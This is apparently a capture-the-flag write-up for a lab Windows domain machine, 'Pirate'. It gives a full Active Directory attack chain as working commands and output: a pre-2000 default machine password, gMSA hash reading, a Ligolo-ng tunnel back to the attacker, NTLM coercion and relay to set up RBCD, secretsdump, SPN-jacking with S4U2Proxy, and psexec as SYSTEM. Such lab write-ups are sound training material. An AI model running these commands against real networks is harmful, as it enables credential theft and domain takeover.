

## Overview

| Field | Details |
|---|---|
| **Machine** | Pirate |
| **OS** | Windows |
| **Difficulty** | Hard |
| **Domain** | pirate.htb |
| **DC** | DC01.pirate.htb |
| **Starting Creds** | `pentest / p3nt3st2025!&` |

## Attack Path



## TL;DR

- Pre-2K computer account `MS01$` has default password `ms01` → get TGT
- Use `MS01$` to read gMSA password → `gMSA_ADFS_prod$` NTLM hash
- WinRM to DC01 as `gMSA_ADFS_prod$` → discover internal subnet 192.168.100.0/24
- Ligolo-ng tunnel to reach WEB01 (192.168.100.2)
- NTLM coercion on WEB01 → relay to LDAP on DC01 → RBCD → S4U2Proxy as Administrator → `user.txt`
- secretsdump on WEB01 → `a.white` plaintext from DefaultPassword LSA secret
- `a.white` resets `a.white_adm` password → `a.white_adm` has WriteSPN on DC01 + WEB01 + constrained delegation to `HTTP/WEB01`
- SPN-jack `HTTP/WEB01.pirate.htb` from WEB01 onto DC01 → S4U2Proxy with `-altservice CIFS/DC01` → psexec as SYSTEM → `root.txt`

## Setup

```bash
echo '10.129.x.x DC01.pirate.htb pirate.htb DC01' | sudo tee -a /etc/hosts
sudo ntpdate pirate.htb
```

The DC runs +7h ahead. Kerberos tolerates 5 minutes max — you'll hit `KRB_AP_ERR_SKEW` on every `-k` operation if you skip this. Re-run `ntpdate` if your Kerberos calls start failing mid-box.

---

## Reconnaissance

### Credential Validation

```bash
nxc smb pirate.htb -u 'pentest' -p 'p3nt3st2025!&'     # SMB works
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&'     # LDAP works — signing:None, channel binding:Never
nxc winrm pirate.htb -u 'pentest' -p 'p3nt3st2025!&'    # WinRM denied
```

LDAP signing is **disabled**. This is what makes NTLM relay to LDAP possible later — keep it in mind.

### Domain Users

```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' --users
```

Notable accounts: `a.white` paired with `a.white_adm` — classic privilege separation where the regular account usually holds reset rights over its admin counterpart.

### Kerberoasting

```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -k --kerberoasting output.txt
```

Two roastable accounts: `a.white_adm` and `gMSA_ADFS_prod$`. Neither cracks against rockyou.txt — rabbit hole, skip it.

### BloodHound

```bash
bloodhound-python -dc 'dc01.pirate.htb' -d 'pirate.htb' \
  -u 'pentest' -p 'p3nt3st2025!&' -ns $IP --zip -c All
```

Key edges revealed:
- `pentest` → member of **Pre-Windows 2000 Compatible Access** (via Authenticated Users)
- `MS01$` → **ReadGMSAPassword** on `gMSA_ADFS_prod$`
- `a.white_adm` → **Constrained Delegation** to `HTTP/WEB01.pirate.htb`
- `a.white_adm` → **WriteSPN** on DC01 and WEB01

This is the full chain right there. BloodHound just handed us the roadmap.

---

## Enumeration

### Pre-Windows 2000 Computer Accounts

When computer accounts are created with "Pre-Windows 2000 compatibility," the default password is set to the lowercase computer name without `$`. NetExec has a module that finds and validates these automatically:

```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -M pre2k
```

```
PRE2K    Pre-created computer account: MS01$
PRE2K    Pre-created computer account: EXCH01$
PRE2K    [+] Successfully obtained TGT for ms01@pirate.htb
PRE2K    [+] Successfully obtained TGT for exch01@pirate.htb
```

If you manually test `MS01$:ms01` over SMB you'll see `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` — that's not a failure. The password is correct; the account type just can't do interactive SMB logons. Use Kerberos.

### gMSA Password Extraction

`MS01$` is authorized to read gMSA passwords (member of "Domain Secure Servers"). NTLM over LDAP fails due to channel binding, so use Kerberos:

```bash
impacket-getTGT 'pirate.htb/MS01$:ms01'
export KRB5CCNAME=MS01\$.ccache
nxc ldap dc01.pirate.htb -u 'MS01$' -p 'ms01' -k --gmsa
```

```
Account: gMSA_ADCS_prod$    NTLM: 25c7f0eb586ed3a91375dbf2f6e4a3ea
Account: gMSA_ADFS_prod$    NTLM: fd9ea7ac7820dba5155bd6ed2d850c09
```

`gMSA_ADFS_prod$` is a member of **Remote Management Users** — WinRM access.

---

## Exploitation

### Foothold — WinRM to DC01

```bash
evil-winrm -i 10.129.x.x -u 'gMSA_ADFS_prod$' -H 'fd9ea7ac7820dba5155bd6ed2d850c09'
```

We land on DC01. No admin rights, but `ipconfig` shows a second internal interface:

```
vEthernet (Switch01): 192.168.100.1/24
```

WEB01 is at 192.168.100.2 — not reachable from our attack box directly. We need a tunnel.

### Pivoting with Ligolo-ng

**Attack box:**
```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert -laddr 0.0.0.0:11601
```

**DC01 (via Evil-WinRM):**
```powershell
upload /path/to/agent.exe
.\agent.exe -connect 10.10.x.x:11601 -ignore-cert
```

**Attack box — select session in the proxy console, then add route:**
```bash
sudo ip route add 192.168.100.0/24 dev ligolo
```

WEB01 is now routable from your attack box. Verify: `nxc smb 192.168.100.2` — note SMB signing is **disabled** on WEB01, which is required for the relay.

### NTLM Coercion + Relay → RBCD

**Start the relay:**

```bash
sudo ntlmrelayx.py -t ldap://DC01.pirate.htb -i --delegate-access -smb2support --remove-mic
```

`--remove-mic` strips the NTLM Message Integrity Code to allow SMB→LDAP relay. `-i` spawns an interactive LDAP shell on success. `--delegate-access` auto-configures RBCD.

**Trigger coercion from WEB01:**

```bash
nxc smb 192.168.100.2 \
  -u 'gMSA_ADFS_prod$' -H 'fd9ea7ac7820dba5155bd6ed2d850c09' \
  -M coerce_plus -o LISTENER=10.10.x.x
```

```
COERCE_PLUS    Exploit Success, lsarpc\EfsRpcAddUsersToFile
COERCE_PLUS    Exploit Success, spoolss\RpcRemoteFindFirstPrinterChangeNotificationEx
```

The relay catches WEB01$'s authentication and reports success:

```
[*] Authenticating connection from PIRATE/WEB01$ against ldap://DC01.pirate.htb SUCCEED
[*] Started interactive Ldap shell via TCP on 127.0.0.1:11000
```

**Set up RBCD via the LDAP shell:**

```bash
nc 127.0.0.1 11000
```

```
# start_tls
StartTLS succeded, you are now using LDAPS!

# add_computer ATTACKER$
Adding new computer with username: ATTACKER$ and password: ~0G1;#$If,ukl^l result: OK

# set_rbcd WEB01$ ATTACKER$
Delegation rights modified successfully!
ATTACKER$ can now impersonate users on WEB01$ via S4U2Proxy
```

`start_tls` is required before `add_computer` — LDAPS is needed to create objects. After this WEB01 trusts ATTACKER$ to impersonate any user via S4U2Proxy.

### S4U2Proxy — Administrator on WEB01

```bash
impacket-getST 'pirate.htb/ATTACKER$:~0G1;#$If,ukl^l' \
  -spn HTTP/WEB01.pirate.htb \
  -impersonate Administrator \
  -dc-ip 10.129.x.x
```

```bash
export KRB5CCNAME=Administrator@HTTP_WEB01.pirate.htb@PIRATE.HTB.ccache
evil-winrm -i WEB01.pirate.htb -r PIRATE.HTB -K $KRB5CCNAME
```

Administrator shell on WEB01. User flag at `C:\Users\a.white\Desktop\user.txt`.

---

## Privilege Escalation

### secretsdump — LSA Secrets

From Administrator on WEB01, dump all credentials remotely:

```bash
impacket-secretsdump -k -no-pass WEB01.pirate.htb
```

The LSA Secrets section contains a DefaultPassword entry — `a.white` was configured for auto-logon on WEB01, which stores the plaintext password in the registry:

```
[*] DefaultPassword
PIRATE\a.white:E2nvAOKSz5Xz2MJu
```

Also note: WEB01$'s machine hash (`feba09cf0013fbf5834f50def734bca9`) — needed later for SPN manipulation.

### Password Reset — a.white → a.white_adm

`a.white` has delegated reset rights over `a.white_adm`:

```bash
bloodyAD -d pirate.htb -u a.white -p 'E2nvAOKSz5Xz2MJu' \
  --host DC01.pirate.htb set password 'a.white_adm' 'NewP@ss2026!'
```

Verify the delegation config:

```bash
nxc ldap DC01.pirate.htb -u a.white_adm -p 'NewP@ss2026!' --find-delegation
```

```
a.white_adm    Person    Constrained w/ Protocol Transition    http/WEB01.pirate.htb, HTTP/WEB01
```

`a.white_adm` can impersonate users to `HTTP/WEB01.pirate.htb` and has WriteSPN on both DC01 and WEB01. Everything is in place.

### SPN-Jacking

The constrained delegation is bound to `HTTP/WEB01.pirate.htb` — which resolves to WEB01, a machine we already own. The key insight: **SPNs are just AD attributes**. We can move the SPN to DC01 using WriteSPN, and Kerberos will start issuing tickets encrypted with DC01's key.

**Remove SPN from WEB01** (`spn_remove.ldif`):

```
dn: CN=WEB01,CN=Computers,DC=pirate,DC=htb
changetype: modify
delete: servicePrincipalName
servicePrincipalName: HTTP/WEB01.pirate.htb
-
delete: servicePrincipalName
servicePrincipalName: HTTP/WEB01
```

```bash
ldapmodify -x -H ldap://DC01.pirate.htb -D "PIRATE\\a.white_adm" -w 'NewP@ss2026!' -f spn_remove.ldif
```

**Add SPN to DC01** (`spn_add.ldif`):

```
dn: CN=DC01,OU=Domain Controllers,DC=pirate,DC=htb
changetype: modify
add: servicePrincipalName
servicePrincipalName: HTTP/WEB01.pirate.htb
```

```bash
ldapmodify -x -H ldap://DC01.pirate.htb -D "PIRATE\\a.white_adm" -w 'NewP@ss2026!' -f spn_add.ldif
```

`HTTP/WEB01.pirate.htb` now resolves to DC01. Kerberos doesn't validate whether an SPN "belongs" on a given object — it just maps the name to a key.

**Request ticket with altservice:**

```bash
getST.py PIRATE.HTB/a.white_adm:'NewP@ss2026!' \
  -spn HTTP/WEB01.pirate.htb \
  -impersonate Administrator \
  -dc-ip 10.129.x.x \
  -altservice CIFS/DC01.pirate.htb
```

```
[*] Changing service from HTTP/WEB01.pirate.htb@PIRATE.HTB to CIFS/DC01.pirate.htb@PIRATE.HTB
[*] Saving ticket in Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache
```

`-altservice` swaps HTTP for CIFS (file access) and retargets to DC01. The service name in S4U2Proxy tickets isn't protected by the KDC signature — it can be modified client-side freely.

### SYSTEM on DC01

```bash
export KRB5CCNAME=Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache
psexec.py -k -no-pass DC01.pirate.htb
```

```
C:\Windows\system32> whoami
nt authority\system
```

Root flag at `C:\Users\Administrator\Desktop\root.txt`.

---

## Flags

| Flag | Location |
|---|---|
| **user.txt** | `C:\Users\a.white\Desktop\` on WEB01 |
| **root.txt** | `C:\Users\Administrator\Desktop\` on DC01 |

---

## Tools

| Tool | Purpose |
|---|---|
| netexec (nxc) | SMB/LDAP enum, gMSA reading, pre2k module, coercion |
| impacket suite | getTGT, getST, secretsdump, psexec |
| evil-winrm | WinRM remote shells |
| ligolo-ng | Network pivoting via TUN interface |
| ntlmrelayx.py | NTLM relay with RBCD setup |
| bloodyAD | AD object manipulation (password reset) |
| ldapmodify | SPN manipulation via LDIF |
| bloodhound-python | AD attack path enumeration |
| ntpdate | Kerberos clock synchronization |

## Lessons Learned

- Pre-2K computer accounts are easy wins — `nxc -M pre2k` finds and validates them in one shot. `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` means the password is correct
- gMSA passwords require Kerberos LDAP auth (`-k`) when channel binding is enforced — NTLM won't work
- LDAP signing disabled + coercible machine = relay to LDAP = RBCD. Check signing status early in every AD engagement
- Ligolo-ng beats proxychains for pivoting — native routing means all tools work without wrapper overhead
- SPNs are just attributes: WriteSPN + constrained delegation is SPN-jacking. Kerberos trusts the mapping, not the object
- The service type in S4U2Proxy tickets is unsigned — `-altservice` is a free service swap, HTTP→CIFS, to whatever target holds the SPN
